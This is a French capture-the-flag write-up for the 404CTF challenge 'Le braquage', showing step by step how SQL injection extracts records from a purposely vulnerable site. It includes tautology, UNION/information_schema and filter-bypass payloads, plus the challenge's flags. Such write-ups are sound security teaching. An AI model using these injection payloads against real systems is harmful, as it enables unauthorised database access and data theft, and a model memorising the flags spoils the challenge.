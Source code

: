 # Le braquage

> UTILISER SQLMAP SUR CE CHALLENGE-CI OU TOUT AUTRE CHALLENGE CONDUIRA A UN BAN
>
> Vous êtes sur une affaire de cambriolage. D’après vos informations, un criminel surnommé TITI a prévu une rencontre avec ses complices pour préparer son prochain casse.
>
> Heureusement, votre équipe est parvenu à trouver un site qu’ils utilisent. Ce site leur permet de communiquer et d’échanger des lieux de rendez-vous ainsi que des fausses identités. A vous d’exploiter cette base de données pour obtenir des informations sur le suspect et son opération : nom, prénom, adresse visée, date du casse, heure du casse, téléphone, mot de passe.
>
> Les différents morceaux de flag sont sous la forme : 404CTF{Nom},404CTF{Prénom},404CTF{Adresse},404CTF{Date},404CTF{Heure},404CTF{Téléphone},404CTF{Mdp}
>
> Le flag final est la concaténation de tous les morceaux sans espace : 404CTF{NomPrénomTéléphoneAdresseDateHeureMdp}
>
> https://le-braquage.404ctf.fr/

On arrive sur la page principale du site, qui propose trois pages.

![main](../images/braquage_main.png)

Nous allons explorer chaque page une par une.

## Discussions

On arrive sur une page où on doit entrer l'identifiant et le pseudo de la personne pour obtenir son téléphone, adresse et code.

![discussion](../images/braquage_discussion.png)

Malheureusement on ne connaît pas l'identifiant de TITI.

Heureusement, le site est vulnérable à des injections SQL, ce qu'on apprend en entrant `'` dans les champs:

![vulnerable](../images/braquage_discussion_vuln.png)

On apprend également que la page utilise MySQL. On peut donc tenter d'utiliser des [payloads MySQL](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md).

On obtient la table complète en utilisant le payload:

```sql
' OR '1' = '1
```

dans le champ identifiant.

La requête complète devient probablement quelque chose du type `SELECT * FROM table WHERE pseudo='' AND id = '' OR '1'`, ce qui est valide pour toutes les lignes.

![solution](../images/braquage_discussion_sol.png)

Téléphone : `404CTF{0145769456}`
Adresse : `404CTF{21 rue des kiwis}`
Code : `OpérationGorfou`
ID: 7456

## Informations

Cette fois-ci il n'y a qu'un seul champ:

![info](../images/braquage_info.png)

On peut entrer le nom TITI, mais on n'obtient pas plus d'informations.

Comme précédemment, on tente d'entrer un `'` et on obtient une erreur MySQL.
On peut donc tenter d'obtenir des données supplémentaires qui pourraient être dans le base de données.

On suppose que la requête initiale est du type:

```sql
SELECT id, cooperative FROM une_table WHERE id = '{id}'
```

On peut donc tenter de récupérer le nom de la table, en entrant le payload suivant:

```sql
TITI' UNION SELECT 1,table_name FROM information_schema.tables -- 
```

Le `1,` permet d'avoir le bon nombre de colonnes (on sait qu'on en a deux), et le `-- ` permet de mettre la suite en commentaire (ne pas oublier l'espace après les tirets).

On obtient le nom des tables:

![tables](../images/braquage_info_table.png)

On a donc deux tables: `cooperatives` et `Users`.

Cherchons d'abord la table `Users`. On extrait le nom des colonnes avec:

```sql
TITI' UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='Users
```

Ce qui nous donne les colonnes `id`, `nom` et `prenom`.

On peut donc extraire les données que l'on souhaite:

```sql
' UNION SELECT prenom,nom FROM Users WHERE id=7456 -- 
```

![nomprenom](../images/braquage_info_sol1.png)

Prénom: `404CTF{UnGorfou}`
Nom: `404CTF{Vereux}`

Et maintenant le seconde table:

```sql
TITI' UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='cooperatives
```

On a les colonnes `pseudo` et `cooperative`. On n'apprendra donc rien de plus avec cette table.

## Rencontres

Encore une page avec un seul champs, et qui utilise toujours MySQL.

Rentrer le code d'opération trouvé précédemment nous donne immédiatement la date et l'heure de l'opération.

![rencontres](../images/braquage_rencontres.png)

Date : `404CTF{2022-07-14}`
Heure : `404CTF{01hDuMatin}`

Tentons donc de voir s'il y a plus de tables ou de colonnes.
En revanche cette fois-ci il y a des filtres:

![filtre](../images/braquage_rencontres_filtre.png)

Il suffit de bypass les filtres un par un, comme il est indiqué quels caractères sont interdits.

On remplace:
- espace par `{}` (et `-- ` par `#` puisqu'il faut un espace après les tirets)
- SELECT par son encodage HTML: `%53%45%4c%45%43%54`


Ce qui donne au final:

```sql
'/**/UNION/**/%53%45%4c%45%43%54/**/1,1,table_name/**/FROM/**/information_schema.tables/**/#
```

On obtient les tables `Password` et `Rdv`.

De même, trouvons les colonnes de `Password`:

```sql
'/**/UNION/**/%53%45%4c%45%43%54/**/1,1,column_name/**/FROM/**/information_schema.columns/**/WHERE/**/table_name='Password
```

On trouve `id` et `mdp`.

```sql
'/**/UNION/**/%53%45%4c%45%43%54/**/1,id,mdp/**/FROM/**/Password/**/WHERE/**/id='7456
```

![motdepasse](../images/braquage_rencontres_sol.png)

Mot de passe : `404CTF{GorfousAuPouvoir}`

On a toutes les informations pour réunir le flag!

Flag: `404CTF{VereuxUnGorfou014576945621 rue des kiwis2022-07-1401hDuMatinGorfousAuPouvoir}`